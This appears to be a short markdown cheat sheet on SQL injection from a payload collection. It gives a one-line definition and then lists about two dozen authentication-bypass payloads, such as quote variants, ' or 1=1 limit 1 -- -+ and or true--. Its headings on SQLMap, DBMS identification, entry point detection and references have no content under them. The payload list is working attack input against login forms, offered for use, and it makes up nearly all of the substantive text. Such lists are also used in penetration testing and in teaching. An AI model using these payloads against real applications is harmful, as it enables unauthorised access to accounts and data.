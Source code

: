 # SQL Injection

A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application

## _Authentication Bypass_

```
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--

```

## _SQL Injection using SQLMap_

## _DBMS Identification_

## _Entry point detection_


# Thanks to and Reference
